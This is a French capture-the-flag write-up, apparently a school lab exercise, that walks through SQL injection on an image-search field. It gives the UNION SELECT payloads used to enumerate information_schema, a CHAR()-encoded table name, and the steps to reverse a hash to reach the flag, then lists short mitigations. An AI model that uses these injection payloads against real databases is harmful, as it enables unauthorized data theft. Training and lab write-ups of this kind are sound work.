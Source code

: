Recherche une image par number

## Comment ?
On teste 1 OR 1=1 → 
Ça affiche toutes les images 

On utilise 1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = database() --
On découvre la table : list_images

On utilise 1 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = CHAR(108,105,115,116,95,105,109,97,103,101,115) --
CHAR(108,105,115,116,95,105,109,97,103,101,115) = "list_image"
On découvre les colonnes : id, url, title, comment

On utilise 1 UNION SELECT comment, 2 FROM list_images --

On obtient :
ID: 1 UNION SELECT comment, title FROM list_images -- 
Title: 2
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


Le hash MD5 est : 1928e8083cf461a51303633093573c46
→ Reverse MD5 : albatroz
→ SHA256 de "albatroz"

## Comment l'éviter? 
- Valider les entrées utilisateurs dans le back.
- Les ORM actuels sont protégés contre cela. 


